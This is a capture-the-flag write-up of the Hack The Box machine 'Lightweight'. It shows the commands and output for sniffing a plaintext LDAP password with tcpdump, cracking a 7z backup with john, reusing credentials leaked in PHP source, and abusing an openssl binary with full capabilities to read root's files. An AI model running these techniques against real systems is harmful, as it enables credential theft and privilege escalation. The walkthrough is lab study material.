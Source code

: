 ```yaml
---
layout: post
---
```


I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:

![index.html](../images/lightweight_index.png)

The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.

![wireshark](../images/wireshark.png)

By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned? :thinking:".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
